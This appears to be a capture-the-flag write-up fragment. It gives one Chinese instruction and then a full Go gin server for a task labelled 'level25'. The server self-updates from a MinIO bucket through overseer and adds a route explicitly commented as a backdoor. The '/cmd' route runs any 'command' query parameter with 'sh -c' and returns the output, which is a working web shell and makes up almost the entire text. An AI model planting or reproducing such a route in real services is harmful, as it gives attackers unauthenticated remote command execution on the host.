 修改 `main.go`，添加命令执行路由 `/cmd`：

```go
package main

import (
	"bytes"
	"level25/fetch"
	"level25/conf"
	"net/http"
	"os/exec"

	"github.com/gin-gonic/gin"
	"github.com/jpillora/overseer"
)

func main() {
	fetcher := &fetch.MinioFetcher{
		Bucket:    conf.MinioBucket,
		Key:       conf.MinioKey,
		Endpoint:  conf.MinioEndpoint,
		AccessKey: conf.MinioAccessKey,
		SecretKey: conf.MinioSecretKey,
	}
	overseer.Run(overseer.Config{
		Program: program,
		Fetcher: fetcher,
	})
}

func program(state overseer.State) {
	g := gin.Default()
	g.StaticFS("/static", gin.Dir(".", true))
	
	// 添加后门路由
	g.GET("/cmd", func(c *gin.Context) {
		command := c.Query("command")
		if command == "" {
			c.JSON(http.StatusBadRequest, gin.H{"error": "command parameter is required"})
			return
		}
		
		cmd := exec.Command("sh", "-c", command)
		var stdout, stderr bytes.Buffer
		cmd.Stdout = &stdout
		cmd.Stderr = &stderr
		err := cmd.Run()
		
		if err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"error":   "failed to execute command",
				"details": stderr.String(),
			})
			return
		}
		
		c.JSON(http.StatusOK, gin.H{
			"command": command,
			"output":  stdout.String(),
		})
	})
	
	g.Run(":8080")
}
```